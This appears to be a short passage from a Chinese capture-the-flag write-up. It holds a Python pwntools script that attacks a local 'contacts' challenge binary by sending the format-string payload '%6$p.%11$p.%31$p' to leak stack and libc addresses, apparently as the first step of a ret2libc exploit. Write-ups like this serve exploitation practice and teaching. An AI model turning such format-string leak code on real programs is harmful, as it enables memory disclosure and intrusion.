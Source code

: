 ![](./photo/12.jpg)
干脆在第一次泄露_lib_start_main时泄露，改一下之前的脚本
```
from pwn import*
from LibcSearcher import LibcSearcher
context.log_level ='debug'
io = process('./contacts')
io.recv()
def create(name, phone, number, payload):
    print('$$$$$$$$$$$$$$$$$$$$$$$$')
    io.sendline('1')
    io.recvuntil('Name:')
    io.sendline(name)
    io.recvuntil('Enter Phone No:')
    io.sendline(phone)
    io.recvuntil('Length of description:')
    io.sendline(number)
    io.recvuntil('Enter description:')
    io.sendline(payload)
    io.recv()

def display():
    io.sendline('4')
    data = io.recvuntil('aaaa')
    return data

create('zzw', '234324234', '200',b'%6$p.%11$p.%31$p.aaaa')
```